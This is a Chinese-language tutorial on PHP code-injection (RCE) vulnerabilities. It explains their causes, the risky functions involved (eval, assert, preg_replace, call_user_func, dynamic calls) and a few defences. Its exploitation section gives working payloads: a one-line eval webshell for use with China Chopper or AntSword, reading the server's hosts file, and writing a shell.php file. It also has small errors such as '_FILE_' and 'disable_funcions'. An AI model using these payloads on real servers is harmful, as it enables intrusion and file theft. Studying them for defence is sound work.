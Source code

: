 #### 代码注入的原理和成因

代码执行（注入）（RCE，remote code execution ）是指应用程序过滤不严，用户可以通过请求将代码注入到应用中执行。代码执行（注入）类似于SQL注入漏洞，SQL注入是将SQL语句注入到数据库中执行，而代码执行则是可以把代码注入到应用中最终由服务器运行它。这样的漏洞如果没有特殊的过滤，相当于有一个web后门的存在，危险性很大

##### 成因：

1. 程序中含有可以执行PHP代码的函数或者语言结构
2. 传入第一点中的参数，客户端可控，能直接修改或影响

#### 漏洞危害

web应用如果存在代码执行漏洞是一件非常可怕的事情，就像一个人没有穿衣服，赤裸裸的的暴露在光天化日下的。可以通过代码执行漏洞继承web用户权限，执行任意代码。如果具有服务器没有正确配置，web用户权限比较高的话，我们可以读写目标服务器任意文件内容，甚至控制整个网站以及服务器。

PHP中很多函数和语句都会造成PHP代码执行漏洞

#### 相关函数和语句

1. **eval()**，会将字符串当作php代码执行

   测试代码如下：

   - 提交参数

      `?code=phpinfo();`

      也可以是`?code=${phpinfo()};`、`?code=1;phpinfo();`

2. **assert()**，同样会作为PHP代码执行

    - 提交参数

    `?code=phpinfo()`，无论是否加入分号都可以被执行

3. **preg_replace()**，这个函数作用是对字符串进行正则处理

    `<?php`

    `$str=preg_replace('/a/','b',"abcdefgajest");`

    `echo $str`

    `?>`

    查找a替换成b，输出结果为bbcdefgajest，要注意preg_replace()中是正则公式，所以使用双斜杠标记需要查找的内容

    - 提交参数

        `?code=[phpinfo()]`

4. **call_user_func()**，都有调用其他函数的功能，其中一个参数作为要调用的函数名，如果传入的函数名可控，那就可以调用意外的函数来执行想要的代码，也就是存在任意代码执行漏洞

    - 提交参数

    `?fun=assert&para=phpinfo()`

5. 动态函数**$a($b)**，由于PHP本身特性，PHP函数支持直接由拼接的方式调用，导致了PHP在安全上的控制加大了难度。不少知名程序也用到了动态函数的写法，这种写法跟使用了call_user_func()的初衷一样，用来更加方便的调用函数，但是一旦过滤不严格就会造成代码执行漏洞

    - 提交参数

    `?a=assert&b=phpinfo()`

#### 漏洞利用

1. 直接获取shell

    - 提交参数

        `?code=@eval($_POST[1]);`

        `?code=@eval($_REQUEST[1]);`

        输入命令即可构成一句话木马，密码是1，可以使用"中国菜刀"或者"中国蚁剑"连接

2. 获取当前文件的绝对路径，`_FILE_`是PHP的预定义常量，其含义是当前文件的路径

    - 提交参数

        `?code=print(_FILE_)`

3. 读文件，file_get_contents()，读取服务器任意文件，前提是需要知道目标文件路径和读取权限

    - 提交参数，读取设备的hosts

        `?code=var_dump(file_get_contents('c:\windows\system32\drivers\etc\hosts'))`

4. 写文件，file_put_contents()，写入文件，前提是知道可写目录

    -   提交参数

        `?code=file_put_contents($_POST[1],$_POST[2]);`

        此时需要借助hackbar通过post方式提交参数

        `1=shell.php&2=<?php phpinfo()?>`，这样就可以当前目录下创建一个shell.php文件，包含phpinfo命令

#### 漏洞防御方法

1.  尽量不要使用**eval**，等其他函数
2.  如果必须使用，一定要进行严格的过滤
3.  preg_replace，放弃使用/e修饰符
4.  修改php.ini配置文件，禁用相关的函数。在php.ini中找到**disable_funcions =** ，等号后面加上需要禁用的函数

  